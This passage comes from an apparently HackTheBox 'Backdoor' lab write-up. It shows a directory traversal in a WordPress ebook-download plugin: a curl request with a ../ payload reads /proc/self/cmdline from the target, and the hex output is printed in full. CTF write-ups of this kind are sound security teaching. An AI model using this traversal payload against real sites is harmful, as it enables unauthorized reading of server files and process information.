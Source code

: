 In each numbered folder, the `cmdline` file has the command line user to run the process:

```

oxdf@hacky$ cat /proc/self/cmdline
cat/proc/self/cmdline

```

It’s worth noting that there’s no space between `cat` and the path. `xxd` make this clear:

```

oxdf@hacky$ cat /proc/self/cmdline | xxd
00000000: 6361 7400 2f70 726f 632f 7365 6c66 2f63  cat./proc/self/c
00000010: 6d64 6c69 6e65 00                        mdline.

```

The program and the arguments are actually separated by a null byte. I’ll keep that in mind.

#### POC on Backdoor

On Backdoor, I can do the same thing:

```

oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.

```

`curl` is not happy about putting binary data to the command line. I’ll force it with `-o-`, and use `xxd` to look at the results:

```

oxdf@hacky$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd
00000000: 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e  ../../../../../.
00000010: 2e2f 2e2e 2f70 726f 632f 7365 6c66 2f63  ./../proc/self/c
00000020: 6d64 6c69 6e65 2e2e 2f2e 2e2f 2e2e 2f2e  mdline../../../.
00000030: 2e2f 2e2e 2f2e 2e2f 2e2e 2f70 726f 632f  ./../../../proc/
00000040: 7365 6c66 2f63 6d64 6c69 6e65 2e2e 2f2e  self/cmdline../.
00000050: 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e  ./../../../../..
00000060: 2f70 726f 632f 7365 6c66 2f63 6d64 6c69  /proc/self/cmdli
00000070: 6e65 2f75 7372 2f73 6269 6e2f 6170 6163  ne/usr/sbin/apac
00000080: 6865 3200 2d6b 0073 7461 7274 003c 7363  he2.-k.start.<sc
00000090: 7269 7074 3e77 696e 646f 772e 636c 6f73  ript>window.clos
000000a0: 6528 293c 2f73 6372 6970 743e            e()</script>

```

It seems to print the given parameter three times, then without a break the results, which includes `\x00` where I would want spaces. Then it ends in `<script>window.close()</script>`.
